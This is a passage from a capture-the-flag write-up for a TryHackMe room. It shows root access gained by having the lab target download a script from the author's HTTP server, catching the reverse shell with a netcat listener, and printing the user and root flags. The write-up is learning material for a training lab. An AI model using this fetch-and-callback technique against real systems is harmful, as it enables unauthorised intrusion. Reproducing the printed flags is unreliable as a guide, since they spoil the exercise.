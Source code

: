 - Now run a Python server on port 85 and start a listener. After a minute you will see that target machine downloaded a script from you and you will get a connection on your listener.

  ```
  python3 -m http.server 85
  Serving HTTP on 0.0.0.0 port 85 (http://0.0.0.0:85/) ...
  10.10.189.243 - - [31/May/2025 22:49:02] "GET /app/castle/application/counter.sh HTTP/1.1" 200 -
  
  
  nc -lvnp 5555
  listening on [any] 5555 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.189.243] 49410
  whoami
  root
  id
  uid=0(root) gid=0(root) groups=0(root)
  ```

- Read the flag and it's done.

  ```
  pwd
  /root
  ls
  counter.sh
  root.txt
  /usr/lib/klibc/bin/cat root.txt
  thm{e8b2f52d88b9930503cc16ef48775df0}
  ```

- Loved this room! I grew up on Mario games and even have a tattoo related to them so nostalgia was hitting hard here.

---

## 🏁 Flags

- **User Flag**: `thm{030a769febb1b3291da1375234b84283}`
- **Root Flag**: `thm{e8b2f52d88b9930503cc16ef48775df0}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Getting to root.`

- What did I learn?
  `Few new exploit methods.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
